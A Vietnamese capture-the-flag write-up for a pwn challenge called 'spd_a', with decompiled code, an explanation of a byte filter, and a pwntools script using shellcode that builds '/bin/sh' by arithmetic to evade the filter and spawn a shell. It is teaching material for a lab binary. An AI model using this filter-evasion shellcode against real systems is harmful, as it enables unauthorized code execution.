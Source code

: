# spd_a_cc30fab6

**1 chall khá nặng về asm** 

## ida
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+8h] [rbp-58h]
  int v5; // [rsp+Ch] [rbp-54h]
  void *addr; // [rsp+10h] [rbp-50h] BYREF
  void *buf; // [rsp+18h] [rbp-48h]
  _BYTE *v8; // [rsp+20h] [rbp-40h]
  unsigned __int64 v9; // [rsp+28h] [rbp-38h]

  v9 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  signal(14, done);
  alarm(0x3Cu);
  banner();
  if ( getrandom(&addr, 8LL, 1LL) == 8 )
  {
    addr = (void *)((unsigned __int64)addr & 0x7FFFFFFFF000LL);
    buf = mmap(addr, 0x1000uLL, 3, 50, -1, 0LL);
    if ( buf == (void *)-1LL )
    {
      perror("mmap failed, addr");
      return 1;
    }
    else
    {
      printf("c0de: ");
      v5 = read(0, buf, 0x1000uLL);
      if ( v5 >= 0 )
      {
        v8 = buf;
        for ( i = 0; i < v5; ++i )
        {
          if ( v8[i] == '/'
            || v8[i] == 98 && v8[i + 1] == 105 && v8[i + 2] == 110
            || v8[i] == 115 && v8[i + 1] == 104
            || !v8[i] )
          {
            puts("nope");
            return 1;
          }
        }
        if ( mprotect(buf, 0x1000uLL, 5) == -1 )
        {
          perror("mprotect failed");
          return 1;
        }
        else
        {
          return -1;
        }
      }
      else
      {
        perror("read failed");
        return 1;
      }
    }
  }
  else
  {
    perror("getrandom failed");
    return 1;
  }
}
```

**checks:**

![image](https://github.com/gookoosss/CTF/assets/128712571/ea79ae92-25e6-4ad3-a559-f4eafb983ed2)



**chà chà full tank à :))**

sau gần 2 tiếng đọc ida và chạy thử chall thì mình vẫn ko biết bug ở đâu để khai thác :)) 

sau khi được hint thì mình nhận ra **bug nhằm ở sự khác nhau giữa return 1 và return -1:**

- **return 1:**

![image](https://github.com/gookoosss/CTF/assets/128712571/4de4f941-edb3-4329-9f92-500dcac21752)


khi nó đến ret nó sẽ **trỏ đến địa chỉ libc_start_main và ta chả khai thác được gì**

- **return -1:**

![image](https://github.com/gookoosss/CTF/assets/128712571/8503e4d3-221c-4e81-a431-674d4e778863)



return -1 rất lạ, **khi chuẩn bị ret thì nó sẽ xóa gần hết các thanh ghi mà chỉ để lại mỗi thanh ghi rsi và rbp, đến khi ret thì nó sẽ chạy shellcode nếu ta nhập vào**

![image](https://github.com/gookoosss/CTF/assets/128712571/c2e42447-33eb-46cd-8d2d-ada7c41fc8ca)



khá đặc biệt phải không

## Phân tích

đến đây ta phân tích ida để nhập shellcode:

- ở đây không có **lớp bảo mật seccomp** nên sẽ không giới hạn cái syscall ta sử dụng
- **vấn đề nhằm ở đây:** 

```c
for ( i = 0; i < v5; ++i )
        {
          if ( v8[i] == '/'
            || v8[i] == 98 && v8[i + 1] == 105 && v8[i + 2] == 110
            || v8[i] == 115 && v8[i + 1] == 104
            || !v8[i] )
          {
            puts("nope");
            return 1;
          }
        }
```

- tại đây chương trình sẽ **check toàn bộ giá trị ta nhập vào, nếu có các kí tự '/', 'bin', 'sh', '\0' thì sẽ dừng và trả về return 1**, mà return 1 thì ta ko chạy shell được
- bây giờ ta gặp khó vì cần thực thi **syscall execute()** mà lại không thể không thể nhập **/bin/sh\0** vào được

sau khi được hint lần nữa thì mình đã nghĩ ra cách làm khá hay đó là n**hập 8byte bất kì tránh các từ '/', 'bin', 'sh', '\0'** sau đó **tính offset đến /bin/sh\0  rồi trừ ra** là ta có thể **có được /bin/sh\0 mà không cần nhập /bin/sh\0 rồi** 

![image](https://github.com/gookoosss/CTF/assets/128712571/c6454feb-1fa0-49a2-9c9a-55320c722116)


ở đây thì mình chọn **8byte a**

giờ thì viết shellcode thôi :

```python 
shellcode = asm(
    '''
    mov rax , 7016996765293437281    ;aaaaaaaa
    mov rbx , 6987596720162471730    ;offset
    sub rax , rbx                    ;/bin/sh\0
    push rax

    mov rdi, rsp
    xor rsi , rsi
    xor rdx , rdx
    xor rax, rax
    add rax , 0x3b
    syscall

    ''', arch = 'amd64'
)
```

chạy thử xem sao nào

![image](https://github.com/gookoosss/CTF/assets/128712571/d8b17454-2691-49ec-8786-071454e28ead)


và thế là ta đã lấy được shell

## script

```python 
from pwn import *

context.binary = exe = ELF('./spd_a')
p = process(exe.path)

gdb.attach(p, gdbscript = '''
b*main+327
b*main+628
c        
''')

input()

shellcode = asm(
    '''
    mov rax , 7016996765293437281 
    mov rbx , 6987596720162471730
    sub rax , rbx
    push rax

    mov rdi, rsp
    xor rsi , rsi
    xor rdx , rdx
    xor rax, rax
    add rax , 0x3b
    syscall

    ''', arch = 'amd64'
)

p.sendafter(b'c0de: ', shellcode)


p.interactive()

```





